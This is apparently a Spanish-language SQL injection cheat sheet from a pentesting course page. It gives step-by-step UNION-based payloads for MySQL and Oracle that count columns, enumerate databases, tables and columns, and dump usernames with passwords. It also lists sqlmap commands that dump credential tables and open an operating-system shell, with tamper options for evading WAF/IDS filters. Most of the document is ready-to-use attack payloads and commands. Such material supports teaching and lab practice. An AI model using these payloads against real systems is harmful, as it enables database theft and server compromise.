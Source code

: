 ```yaml
---

### 💥 **SQL Injection Cheat Sheet** 💥

---
```

---
#### **¿Qué es SQL Injection?**  
La **inyección SQL (SQLi)** es una vulnerabilidad que permite al atacante manipular consultas SQL realizadas por la aplicación para acceder o modificar datos de la base de datos.  
El atacante puede enviar consultas maliciosas a través de parámetros de entrada, explotando así la aplicación vulnerable.  

---

## **Fase 1: Descubrimiento de Columnas con `ORDER BY`**  

Para determinar el número de columnas en la consulta SQL, se usa la cláusula **`ORDER BY`**:  
```sql
id=3' order by 100-- -
```
- **Si no da error:** El número de columnas es mayor o igual a 100.  
- **Si da error:** El número de columnas es menor a 100.  
- **Ajustar el número hasta encontrar el límite exacto.**  

---

## **Fase 2: Exploración con `UNION SELECT`**  

Una vez conocida la cantidad de columnas, intentamos combinar los resultados de la consulta original con los nuestros:  
**MySQL y Microsoft**
```sql
id=3' union select 1--+-
id=3' union select NULL,2,@@version--+-

```
**Oracle**
```sql

id=3' union select NULL,NULL FROM DUAL-- 
id=3' union select 'a','b' FROM DUAL-- 
id=3' union select 'a',banner from v$version--
```
Esto debería mostrar el valor `1` en la columna inyectada si la consulta es exitosa.  

---

## **Fase 3: Enumeración de Bases de Datos**  

Para listar todas las bases de datos:  
**MySQL**
```sql
id=32' union select schema_name from information_schema.schemata-- -
```
- **`schema_name`:** Columna que contiene los nombres de las bases de datos.  
- **`information_schema`:** Esquema especial que almacena metadatos.  
- **`schemata`:** Tabla que contiene los nombres de las bases de datos.  

---

## **Concatenación con `group_concat()`**  
Si el resultado está limitado, usamos la función **`group_concat()`**:  
```sql
id=32' union select group_concat(schema_name) from information_schema.schemata-- -
```
También podemos usar **`LIMIT`** para obtener resultados específicos:  
```sql
id=32' union select schema_name from information_schema.schemata limit 0,1-- -
```

---

## **Fase 4: Enumeración de Tablas**  

Para listar todas las tablas dentro de una base de datos:  
```sql
id=32' union select group_concat(table_name) from information_schema.tables where table_schema='Hack4u'-- -
```

---

## **Fase 5: Enumeración de Columnas**  

Para listar todas las columnas dentro de una tabla específica:  
```sql
id=32' union select group_concat(column_name) from information_schema.columns where table_schema='Hack4u' and table_name='users'-- -
```

---

## **Fase 6: Extracción de Datos**  

Obtener los usuarios almacenados:  
```sql
id=32' union select group_concat(username) from users-- -
```

Obtener usuarios y contraseñas en conjunto:  
```sql
id=32' union select group_concat(username,':',password) from users-- -
id=32' union select NULL,group_concat(category,0x3a,name) from academy_labs.products-- 
```

---

## **Aclaraciones Importantes**  

- **ORDER BY:** El número representa el total de columnas. Ejemplo:  
  ```sql
  id=1' order by 2-- -
  ```
- **UNION SELECT:** El número de columnas en el `SELECT` debe coincidir con la consulta original. Ejemplo:  
  ```sql
  id=1' union select 1,2-- -
  ```
- **Para verificar cuál columna refleja el valor, prueba con valores no válidos:**  
  ```sql
  id=-1' union select 1,2-- -
  ```
  - Una vez identificada la columna que refleja el resultado, inyecta comandos en esa posición:  
    ```sql
    id=-1' union select database(),2-- -
    ```

---

## **Automatización con SQLMap**  

### **Enumeración de Bases de Datos:**
```bash
sqlmap -u 'http://localhost/searchUsers.php?id=1' --dbs --cookie "PHPSESSID=8123791283"
```

### **Listar Tablas de una Base de Datos:**
```bash
sqlmap -u 'http://localhost/searchUsers.php?id=1' --dbms mysql --batch -D Hack4u --tables
```

### **Listar Columnas de una Tabla:**
```bash
sqlmap -u 'http://localhost/searchUsers.php?id=1' --dbms mysql --batch -D Hack4u -T users --columns
```

### **Dumpear Información Sensible:**
```bash
sqlmap -u 'http://localhost/searchUsers.php?id=1' --dbms mysql --batch -D Hack4u -T users -C username,password --dump
```

### **Obtener Shell Remota:**
```bash
sqlmap -u 'http://localhost/searchUsers.php?id=1' --os-shell
```

---

## **Parámetros Útiles de SQLMap**
| Parámetro    | Descripción                                                         |
|-------------|---------------------------------------------------------------------|
| `--dbs`     | Lista todas las bases de datos.                                      |
| `--tables`  | Lista todas las tablas de una base de datos.                         |
| `--columns` | Lista todas las columnas de una tabla.                               |
| `--dump`    | Extrae los datos de la tabla especificada.                           |
| `--os-shell`| Intenta obtener una consola del sistema operativo.                   |
| `--risk`    | Nivel de riesgo (1-3).                                                |
| `--level`   | Nivel de pruebas (1-5).                                               |
| `--tech`    | Especifica técnicas de inyección.                                     |
| `--tamper`  | Usa scripts de evasión para eludir filtros WAF/IDS.                    |

---

